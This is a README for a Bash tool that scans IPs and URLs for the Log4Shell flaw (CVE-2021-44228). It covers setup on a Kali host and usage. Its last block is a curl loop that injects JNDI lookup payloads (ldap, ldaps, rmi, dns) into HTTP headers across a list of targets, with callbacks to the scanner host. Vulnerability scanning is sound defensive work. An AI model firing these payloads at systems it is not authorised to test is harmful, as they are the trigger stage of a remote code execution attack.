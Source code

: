 # log4jScanner

 log4jScanner.sh is a BASH script to validate the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The script perfectly validates the existence of the vulnerability based on the *RETURN* traffic of 4 protocols ldap | ldaps | rmi | dns 
 
 Thus, the testing methedology is completely safe and non-invasive. 
 
 ## Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of the attack vector. 
 The pcapng file captured complete start-to-end traffic of a perfectly compromised target in lab environment.
 
 For your reference, 192.168.190.100 and 1389 are the attacker's IP/Port, and 192.168.190.44:8080 are the victim's (Tomcat) IP/Port. 
 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
 
```
## Download the script
```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]

```
## For testing multiple IP/URLs, please feel free to modify the script accordingly.
```bash
FOR loop example: 
for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


